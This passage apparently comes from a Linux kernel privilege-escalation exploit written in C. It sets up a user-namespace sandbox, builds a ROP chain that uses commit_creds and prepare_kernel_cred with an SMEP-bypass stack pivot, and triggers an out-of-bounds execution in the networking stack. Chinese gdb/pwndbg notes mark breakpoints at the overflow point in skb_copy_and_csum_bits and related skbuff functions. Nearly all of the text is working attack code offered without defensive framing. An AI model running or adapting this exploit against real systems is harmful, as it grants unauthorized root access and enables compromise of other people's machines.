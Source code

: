 ```c
	}
	if (!write_file("/proc/self/uid_map", "0 %d 1\n", real_uid)) {
		perror("[-] write_file(/proc/self/uid_map)");
		exit(EXIT_FAILURE);
	}
	if (!write_file("/proc/self/gid_map", "0 %d 1\n", real_gid)) {
		perror("[-] write_file(/proc/self/gid_map)");
		exit(EXIT_FAILURE);
	}

	cpu_set_t my_set;
	CPU_ZERO(&my_set);
	CPU_SET(0, &my_set);
	if (sched_setaffinity(0, sizeof(my_set), &my_set) != 0) {
		perror("[-] sched_setaffinity()");
		exit(EXIT_FAILURE);
	}

	if (system("/sbin/ifconfig lo mtu 1500") != 0) {
		perror("[-] system(/sbin/ifconfig lo mtu 1500)");
		exit(EXIT_FAILURE);
	}
	if (system("/sbin/ifconfig lo up") != 0) {
		perror("[-] system(/sbin/ifconfig lo up)");
		exit(EXIT_FAILURE);
	}
}

int main(int argc, char** argv) {
	printf("[.] starting\n");
	save_state();
	printf("[.] setting up namespace sandbox\n");
	setup_sandbox();
	printf("[.] commit_creds:        %lx\n", COMMIT_CREDS);
	printf("[.] prepare_kernel_cred: %lx\n", PREPARE_KERNEL_CRED);
// Step 1: construct ROP chain
	unsigned long payload = (unsigned long)&get_root;
	printf("[.] SMEP bypass enabled, mmapping fake stack\n");
	mmap_stack();
	payload = XCHG_EAX_ESP_RET;
// Step 2: trigger the vulnerability
	printf("[.] executing payload %lx\n", payload);
	oob_execute(payload);

	return 0;
}
/*
(1) 回调函数处				uarg->callback(uarg, true);
$ b net/core/skbuff.c:604
往前找	skb_release_all()
$ b net/core/skbuff.c:667

(2) 溢出点
调用skb_copy_and_csum_bits()
$ b net/ipv4/ip_output.c:1074

(3) 释放函数 skb_release_data()
目的: 查看 skb_shared_info 在 sk_buff 中的偏移位置
$ b net/core/skbuff.c:584		// struct skb_shared_info *shinfo = skb_shinfo(skb);

$ p/x &(*(struct sk_buff *)0)->cloned
pwndbg> p/x &(*(struct sk_buff *)0)->cloned
$2 = 0x8e
```
